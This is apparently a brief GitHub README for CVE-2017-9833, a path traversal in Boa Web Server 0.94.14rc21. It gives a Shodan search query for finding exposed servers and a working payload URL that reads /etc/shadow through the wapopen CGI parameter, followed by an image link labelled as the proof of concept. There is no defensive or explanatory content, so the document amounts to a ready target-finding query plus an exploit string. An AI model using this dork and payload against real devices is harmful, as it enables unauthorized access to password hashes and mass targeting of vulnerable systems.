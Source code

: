 # CVE-2017-9833

Reference: https://www.cvedetails.com/cve/CVE-2017-9833/

Shodan dork: ```product:"Boa Web Server" 0.94.14rc21```

Payload: ```/cgi-bin/wapopen/?FILECAMERA=../../etc/shadow```

POC:

![image](https://user-images.githubusercontent.com/101538840/203938194-d29427e9-f8fa-48bf-b909-7b1d16c688fd.png)
